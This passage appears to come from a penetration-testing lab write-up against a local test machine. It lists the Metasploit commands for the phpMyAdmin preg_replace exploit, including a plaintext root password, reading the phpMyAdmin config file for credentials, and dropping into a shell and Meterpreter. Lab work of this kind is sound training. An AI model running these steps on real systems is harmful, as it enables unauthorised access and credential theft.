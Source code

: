 ![Screenshot 12](images/im12.png)
> Figure 2.6 Accessing/exploiting sensitive data in the session.

![Screenshot 13](images/im13.png)
> Figure 2.7 sploitme is the pass to phpMyAdmin credentials.

### Target B: PhpMyAdmin

**Commands Used:**

Note:  I had to go into the phpMyAdmin to check the credential in figure 2.2 to help with exploiting phpMyAdmin since proftpd had phpMyAdmin in the session.

That is, `use` the command in the `shell` to get the password to phpmyadmin:

`cat` /var/www/html/phpmyadmin/config.inc.php

**Commands Used:**

`search` phpmyadmin

`use` `exploit`/multi/http/phpMyAdmin_preg_replace

`show` options

`set` `RHOSTS` 192.168.0.102

`set` `RPORT` 80

`set` PATH /phpmyadmin

`set` USERNAME root

`set` PASSWORD sploitme

`exploit`

`ls`

`shell`

`whoami`

`exit`

Screenshot of the results:

![Screenshot 14](images/im14.png)
> Figure 2.8


![Screenshot 15](images/im15.png)
> Figure 2.9

![Screenshot 16](images/im16.png)
> Figure 2.10

![Screenshot 17](images/im17.png)
> Figure 2.11 Successfully in Meterpreter through exploitation
